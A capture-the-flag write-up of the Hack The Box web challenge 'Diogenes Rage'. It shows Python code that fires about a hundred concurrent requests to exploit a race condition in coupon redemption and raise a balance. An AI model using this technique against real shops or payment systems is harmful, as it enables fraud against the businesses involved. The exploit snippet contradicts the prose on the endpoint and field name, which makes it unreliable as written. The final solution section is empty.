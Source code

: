 ```yaml
---
title: HTB - Diogenes Rage
author: akiju
date: 2022-10-13 13:00:00 +0700
categories: [Security, Tutorial]
tags: [CTF Python RaceCondition]
pin: true
---
```


# Hack The Box

## Category: Web

### Challange name: Diogenes Rage

Link: https://app.hackthebox.com/challenges/diogenes-rage

### 1. Intro

![Image](https://i.ibb.co/CVf9ncN/1.png)

- Users give a coupon to the selling machine and choose an item.
- A coupon is worth 1$

=> Question: Can I buy another high price item

### 2. Analysis

- Go to your browser's Web Developer tool / Network to check `requests.` Each cookie has a coupon.
![Image](https://i.ibb.co/gg0t99Q/2.png)
- Download and go to folder `web_diogenes_rage\challenge` to view the source code.
- View routing at `web_diogenes_rage\challenge\routes`, I focus on `api/purchase` and `api/coupons/apply` route. To get the challenge's flag, the user has to buy item C8
![Image](https://i.ibb.co/9y2YvYZ/4.png)
- In routing `api/coupons/apply`, the code creates a user object, each user has a username created by this code `tyler_${crypto.randomBytes(5).toString('hex')}` in web_diogenes_rage\challenge\middleware\AuthMiddleware.js and each user only has 1 coupon. The Program will query coupon names in database. If exist, the coupon is accepted. So, I try send more requests with data: {"coupon_name": "HTB_XXX"} (100-999) is not successful.
![Image](https://i.ibb.co/Z6t0B3H/3.png)
=> Question: How can I use only 1 coupon 1$ to buy the item that is worth 13$

- When request `api/coupons/apply` with data `{"coupon_name": "HTB_100"}`, the router use `db.getCouponValue` to get value of this coupon. Then use `db.addBalance` to add value of this coupon to the user. Then use `db.setCoupon` to add coupon code to the user.

=> Question: What happen if there are two requests with sharing same cookie at the same time at `db.addBalance` function ? This is Race condition.  

### 3. Exploit

**Step 1.** Use `/api/purchase` to generate new cookie.
```python
    sess = requests.Session()
    resp = sess.post(
            url=urljoin(host, "/api/purchase"),
            headers=headers,
            data=json.dumps({"item":"A3"})
    )    
```
**Step 2.** Exploit race-condition in `/api/coupons/apply` by multiple-threading code.
```python
    def exploit(cookies):
        resp = requests.post(
            url=urljoin(host, "/api/purchase"),
            headers=headers,
            cookies=cookies,
            data=json.dumps({"coupon_code":"HTB_100"})
        )
    
    with ThreadPoolExecutor(max_workers=300) as pool:
            for i in range(100):
                pool.submit(exploit, cookies)
```
I use class `ThreadPoolExecutor` from module `concurrent.futures`.
Thread Pool define:
```
A thread pool is a programming pattern for automatically managing a pool of worker threads.

The pool is responsible for a fixed number of threads.

It controls when the threads are created, such as just-in-time when they are needed.
It also controls what threads should do when they are not being used, such as making them wait without consuming computational resources.
Each thread in the pool is called a worker or a worker thread. Each worker is agnostic to the type of tasks that are executed, along with the user of the thread pool to execute a suite of similar (homogeneous) or dissimilar tasks (heterogeneous) in terms of the function called, function arguments, task duration, and more.
```
and `ThreadPoolExecutor` Python class is used to create and manage thread pools and is provided in the `concurrent.futures`

Lifecycle of the ThreadPoolExecutor

![Image](https://i.ibb.co/LQNhymH/10.png)

**Step 3.** By item C8 to get the `flag`.

### 4. Solution